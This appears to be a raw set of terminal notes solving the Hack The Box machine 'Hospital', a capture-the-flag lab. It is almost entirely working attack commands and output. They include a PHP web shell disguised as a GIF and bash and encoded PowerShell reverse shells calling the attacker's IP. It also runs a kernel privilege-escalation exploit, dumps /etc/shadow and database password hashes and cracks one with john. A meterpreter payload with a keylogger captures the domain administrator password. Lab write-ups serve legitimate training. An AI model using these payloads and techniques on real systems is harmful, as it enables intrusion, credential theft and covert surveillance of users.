

# Hospital

sudo nmap -sCV 10.129.229.189
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-26 09:56 EDT
Nmap scan report for 10.129.229.189
Host is up (0.0070s latency).
Not shown: 979 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-26 20:56:50Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|*Not valid after:  2019-11-08T23:48:47
| tls-alpn:
|*  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2026-06-25T20:53:44
|*Not valid after:  2026-12-25T20:53:44
| rdp-ntlm-info:
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|*  System_Time: 2026-06-26T20:57:39+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
|*http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags:
|   /:
|     PHPSESSID:
|*      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-06-26T20:57:42
|_  start_date: N/A
|*clock-skew: mean: 6h59m43s, deviation: 0s, median: 6h59m43s
| smb2-security-mode:
|   3:1:1:
|*    Message signing enabled and required

sudo nmap -p- -T5 10.129.229.189
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-26 09:57 EDT
Nmap scan report for 10.129.229.189
Host is up (0.0075s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1801/tcp open  msmq
2103/tcp open  zephyr-clt
2105/tcp open  eklogin
2107/tcp open  msmq-mgmt
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
6024/tcp open  x11
6404/tcp open  boe-filesvr
6406/tcp open  boe-processsvr
6407/tcp open  boe-resssvr1
6409/tcp open  boe-resssvr3
6613/tcp open  unknown
6629/tcp open  nexgen-aux
8080/tcp open  http-proxy
9389/tcp open  adws

No null smb sessions

cat /etc/hosts

10.129.229.189 hospital.htb  DC.hospital.htb




└──╼ [★]$ cat shell.php.gif
GIF89a
<?php system($_REQUEST['cmd']);
?>
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~]
└──╼ [★]$ file shell.php.gif
shell.php.gif: GIF image data, version 89a, 15370 x 28735


mv shell.php.gif shell.gif.phar

cat shell.phar
<?php phpinfo();
?>

git clone [https://github.com/kriss-u/chankro-py3.git](https://github.com/kriss-u/chankro-py3.git)
Cloning into 'chankro-py3'...
remote: Enumerating objects: 75, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 75 (delta 5), reused 9 (delta 2), pack-reused 59 (from 1)
Receiving objects: 100% (75/75), 43.03 KiB | 7.17 MiB/s, done.
Resolving deltas: 100% (31/31), done.
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~]
└──╼ [★]$cd chankro-py3/
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~/chankro-py3]
└──╼ [★]$ ls
[chankro.py](http://chankro.py/)  [hook64.so](http://hook64.so/)  LICENSE    [rev.sh](http://rev.sh/)[hook32.so](http://hook32.so/)   hook.c     [README.md](http://readme.md/)  shell.phtml
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~/chankro-py3]
└──╼ [★]$vi rev.sh
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~/chankro-py3]
└──╼ [★]$

  python3 [chankro.py](http://chankro.py/) --arch 64 --input [rev.sh](http://rev.sh/) --output shell.phar --path /var/www/html

cat [rev.sh](http://rev.sh/)
bash -c 'bash -i >& /dev/tcp/10.10.15.206/4444 0>&1'

```
 -=[ Chankro ]=-
-={ @TheXC3LL }=-
```

[+] Binary file: [rev.sh](http://rev.sh/)
[+] Architecture: x64
[+] Final PHP: shell.phar

[+] File created!

stty raw -echo; fg
nc -lvnp 4444

www-data@webserver:/var/www/html/uploads$
www-data@webserver:/var/www/html/uploads$ export TERM=xterm
www-data@webserver:/var/www/html/uploads$ whoami
www-data
www-data@webserver:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webserver:/var/www/html/uploads$ hostname
webserver

cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

mysql -u root -p'my$qls3rv1c3!’

MariaDB [hospital]> select* from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | hospital | $2y$10$ywr5VqqXFpyTXZXWTmuSzuoGFGRsxxm62uo5n3HYp5p6HWgGuhrNK | 2026-06-26 21:07:12 |

uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

git clone [https://github.com/synacktiv/CVE-2023-35001.git](https://github.com/synacktiv/CVE-2023-35001.git)

cd CVE-2023-35001/

make

ls
exploit  go.mod  go.sum  lpe.zip  main.go  Makefile  [README.md](http://readme.md/)  src  wrapper

wget 10.10.15.206:8000/exploit

www-data@webserver:/dev/shm/10.10.15.206:8000/CVE-2023-35001$ chmod +x exploit

wget 10.10.15.206:8000/wrapper
chmod +x wrapper

www-data@webserver:/dev/shm/10.10.15.206:8000/CVE-2023-35001$ ./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc05b6000
[+] Recovering kernel base
[+] Kernel base: 0xffffffff85a00000
[+] Got root !!!

# id

uid=0(root) gid=0(root) groups=0(root)

root@webserver:/var/mail# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::

john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (?)

1g 0:00:00:30 DONE (2026-06-26 12:27) 0.03262g/s 6999p/s 6999c/s 6999C/s raycharles..pl@yboy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-fvvhjixfb8]─[~]
└──╼ [★]$ cat hash
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/

ssh drwilliams@hospital.htb

drwilliams@webserver:~$id
uid=1000(drwilliams) gid=1000(drwilliams) groups=1000(drwilliams)
drwilliams@webserver:~$ hostname
webserver


python3 CVE_2023_36664_exploit.py -x eps -f file.eps -p "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMgAwADYAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" -i

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.19.210 6190

PS C:\Users\drbrown.HOSPITAL> cd Desktop
PS C:\Users\drbrown.HOSPITAL\Desktop> ls

```
Directory: C:\Users\drbrown.HOSPITAL\Desktop
```

Mode                LastWriteTime         Length Name

---

- ar--- 6/26/2026 4:04 PM 34 user.txt

PS C:\Users\drbrown.HOSPITAL\Desktop> cat user.txt
1c29cb6f7c7dfcdbc51a05661fa90c4c
PS C:\Users\drbrown.HOSPITAL\Desktop> whoami
hospital\drbrown
PS C:\Users\drbrown.HOSPITAL\Desktop> whoami /priv

## PRIVILEGES INFORMATION

Privilege Name                Description                    State

============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
PS C:\Users\drbrown.HOSPITAL\Desktop> hostname
DC

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.206 LPORT=443 -f exe -o shell.exe

sudo msfconsole

[msf](Jobs:0 Agents:0) >> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> options

Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description

---

EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
ead, process, none)
LHOST     tun0             yes       The listen address (an interface may b
e specified)
LPORT     4444             yes       The listen port

Exploit target:

Id  Name

---

0   Wildcard Target

View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 443
lport => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

PS C:\Users\drbrown.HOSPITAL\Documents> iwr -uri 10.10.15.206:8000/shell.exe -outfile shell.exe
PS C:\Users\drbrown.HOSPITAL\Documents> ./shell.exe

Meterpreter 1)(C:\Windows\system32) > keyscan_start
Starting the keystroke sniffer ...

(Meterpreter 1)(C:\Windows\system32) > keyscan_dump
Dumping captured keystrokes...
AdministratorTh3B3stH0sp1t4l9786!administratorTh3b3stH0sp1t4l9786!

Administrator:Th3B3stH0sp1t4l9786!

crackmapexec smb 10.129.19.210 -p 'Th3B3stH0sp1t4l9786!' -u Administrator SMB         10.129.19.210   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:None)
SMB         10.129.19.210   445    DC               [+] hospital.htb\Administrator:Th3B3stH0sp1t4l9786! (Pwn3d!)

evil-winrm -i 10.129.19.210 -p 'Th3B3stH0sp1t4l9786!' -u Administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

```
Directory: C:\Users\Administrator\Desktop
```

Mode                LastWriteTime         Length Name

---

- ar--- 6/26/2026 4:04 PM 34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
22951a8fe59e5b5e8fbbf54361d5c418